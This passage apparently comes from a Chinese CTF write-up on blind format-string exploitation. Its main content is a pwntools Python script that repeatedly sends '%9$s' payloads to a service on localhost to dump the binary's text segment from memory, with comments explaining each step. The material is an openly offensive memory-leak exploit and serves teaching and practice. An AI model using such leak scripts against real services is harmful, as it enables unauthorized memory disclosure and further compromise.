 [![](assets/1701612281-6dcb9fb40f173d384d8fbdaaa6f68c21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224106-208d8f7a-2579-1.png)

我们在 1164 与 1188 的地方找到了加载始地址

之后把 leak.py 修改一下即可

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',11112)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    #使用 binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
    remain = r.recvrepeat(0.2)
    #r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048510
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        #泄漏地址动态增加，假如泄漏 1 字节就增加 1；泄漏 3 字节就增加 3
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
        #处理泄漏长度为 0，也就是数据是 \x00 的情况。地址增加 1，程序数据加 \x00
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
```